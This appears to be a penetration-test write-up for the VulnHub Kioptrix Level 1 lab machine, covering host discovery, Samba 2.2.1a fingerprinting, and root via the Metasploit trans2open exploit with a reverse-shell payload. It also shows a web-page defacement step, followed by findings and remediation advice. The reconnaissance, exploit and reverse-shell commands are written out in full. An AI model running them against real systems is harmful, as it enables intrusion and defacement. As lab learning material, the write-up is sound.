







# Kioptrix Level 1 — Penetration Test Writeup

> **Lab Type:** VulnHub CTF | **Difficulty:** Beginner | **Goal:** Root the box  
> **Attacker:** Kali Linux `10.0.2.5` | **Target:** Kioptrix Level 1 `10.0.2.8`  
> **Date:** June 2026

---

## Overview

This is a walkthrough of Kioptrix Level 1, a classic VulnHub vulnerable machine. I first did this box in class at TS Academy as part of the Ethical Hacking module — but I came back to redo it solo, document it properly, and push it a step further with post-exploitation web defacement to demonstrate what root access actually *means* in a real scenario.

The attack chain: discover the host → enumerate open services → fingerprint a dangerously outdated Samba version → exploit a known buffer overflow → land a root shell → modify the web server to prove full system compromise.

No rabbit holes. Clean kill.

---

## Environment

| Role | Machine | IP |
|---|---|---|
| Attacker | Kali Linux | 10.0.2.5 |
| Target | Kioptrix Level 1 (Red Hat Linux) | 10.0.2.8 |
| Network | VirtualBox NAT Network | 10.0.2.0/24 |

**Tools Used:** netdiscover, nmap, Metasploit Framework, searchsploit

---

## Methodology

### Phase 1 — Reconnaissance

**Step 1: Host Discovery**

First thing I do on any engagement — find what's alive on the network before I touch anything.

```bash
sudo netdiscover -r 10.0.2.0/24
```



Two hosts responded: `10.0.2.2` (gateway) and `10.0.2.8` (target). Both showed MAC vendor as PCS Systemtechnik GmbH — which is VirtualBox's MAC prefix. Target confirmed: `10.0.2.8`.

---

**Step 2: Full Port Scan & Service Enumeration**

Once I had the IP, I ran a full port scan with service detection and default scripts to get a complete picture of the attack surface.

```bash
nmap -sC -sV -p- 10.0.2.8
```



Key findings from the scan:

| Port | Service | Version / Notes |
|---|---|---|
| 22/tcp | SSH | OpenSSH 2.9p2 — ancient, SSHv1 supported |
| 80/tcp | HTTP | Apache 1.3.20 — Red Hat/Linux |
| 111/tcp | RPCBind | v2 |
| 139/tcp | NetBIOS/SMB | Samba (workgroup: MYGROUP) |
| 443/tcp | HTTPS | Apache 1.3.20, SSL cert expired 2010 |

The SSL certificate expired in 2010. The SSH version is from 2001. This machine hasn't been patched since it was built — and that Samba on port 139 immediately caught my attention.

---

### Phase 2 — Enumeration

**Step 3: SMB Version Fingerprinting**

Nmap flagged Samba on 139 but didn't give me the exact version. I used Metasploit's SMB auxiliary module to nail it down.

```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.0.2.8
run
```



Result: **Samba 2.2.1a**

That version number is significant. Samba 2.2.x has well-documented, weaponized exploits available in public databases. Time to look them up.

---

**Step 4: Vulnerability Research**

```bash
searchsploit samba 2.2
```



Multiple exploits returned for Samba 2.2.x — the one that stands out immediately is the `trans2open` buffer overflow, available for Linux x86. This is a remote code execution vulnerability that works by overflowing a stack buffer in the Samba `trans2open` function, allowing arbitrary code execution. Metasploit has a module for it.

---

### Phase 3 — Exploitation

**Step 5: Configure the Exploit**

```bash
use exploit/linux/samba/trans2open
set RHOSTS 10.0.2.8
set LHOST 10.0.2.5
set LPORT 4444
show payloads
```



I reviewed the compatible payloads and selected `linux/x86/shell_reverse_tcp` (payload 34) — a simple, reliable reverse shell. No Meterpreter needed here; the goal is root access, and a command shell gets the job done.

```bash
set PAYLOAD linux/x86/shell_reverse_tcp
exploit
```



**What you're seeing in that screenshot:** the `trans2open` exploit works by brute-forcing return addresses on the stack — it iterates through memory addresses (`0xbfffffc`, `0xbffffcfc`, etc.) until it finds one that redirects execution to our shellcode. This is why multiple sessions open — each successful hit opens a new shell. I ran `whoami` and got back `root`. 

First session in, I'm already at the top of the privilege tree. No privilege escalation needed — Samba was running as root.

---

### Phase 4 — Persistence Verification

**Step 6: Local Console Login**

To verify full system ownership beyond the remote shell, I logged into the Kioptrix console directly as root.



The machine greeted me with its own disclaimer: *"The object of this game: Acquire root access to this machine."*

Done.

---

### Phase 5 — Post-Exploitation (Web Defacement)

**Step 7: Demonstrating Impact**

Root access on a web server means full control over what the world sees. I wanted to go beyond just landing a shell and actually demonstrate what an attacker could do with that access — so I modified the web server's front page.

```bash
cd /var/www/html/
ls -la
mv index.html index.html.bak       # preserve original
echo "<h1>Security Assessment Live - Managed via Kali Linux</h1>" > index.html
cat test.php                        # audit any backend scripts
```

Then verified in the browser (hard refresh: `Ctrl + F5`):


The original Apache default page was replaced with my custom message. In a real incident, this is where an attacker plants malware, redirects visitors to phishing pages, or exfiltrates the web server's data. I kept it clean — but the capability was fully demonstrated.

---

## Findings Summary

| # | Finding | Severity | Detail |
|---|---|---|---|
| 1 | Samba 2.2.1a — trans2open RCE | Critical | Remote root via buffer overflow, no auth required |
| 2 | Apache 1.3.20 | High | End-of-life, unpatched, known CVEs |
| 3 | OpenSSH 2.9p2 with SSHv1 | High | SSHv1 is cryptographically broken |
| 4 | Expired SSL Certificate (2010) | Medium | Self-signed, expired, MD5 signature |
| 5 | TRACE HTTP method enabled | Low | Can facilitate cross-site tracing attacks |

---

## Key Takeaways

**As the attacker:** The entire compromise took one vulnerable service — Samba 2.2.1a — to go from zero network access to full root shell. The `trans2open` exploit is brute-force by design; it hammers return addresses until the stack redirects execution. Noisy, but devastatingly effective against unpatched systems.

**As the analyst:** From a detection standpoint, this attack would generate significant noise — repeated SMB connection attempts from a single source IP within seconds, followed by an outbound connection to an unknown host on port 4444. A properly tuned IDS/SIEM would catch this chain. Kioptrix has no such defenses, which is the point.

**The real lesson:** Old software kills. Samba 2.2.1a was released in 2001. The exploit for it has been public since 2003. This machine had over 20 years of exposure on a known critical vulnerability. Patch management isn't optional — it's the first line of defense.

---

## Remediation Recommendations

- Upgrade Samba immediately — any version below 3.x is end-of-life and critically vulnerable
- Disable SMB/NetBIOS if file sharing is not required on this host
- Replace OpenSSH 2.9p2 and disable SSHv1 protocol support
- Replace expired SSL certificate and enforce TLS 1.2 minimum
- Disable the HTTP TRACE method in Apache configuration
- Implement network segmentation — a public-facing web server should not be running Samba

---

## References

- [CVE-2003-0201 — Samba trans2open Buffer Overflow](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0201)
- [Exploit-DB: linux/remote/16861.rb](https://www.exploit-db.com/exploits/16861)
- [Kioptrix Level 1 — VulnHub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
- [Metasploit Module: exploit/linux/samba/trans2open](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)

---

*Writeup by Paul Chinonso Obinze | [LinkedIn](https://www.linkedin.com/in/paul-obinze-217a00287/) | [GitHub](https://github.com/Nonso-cybersec)*
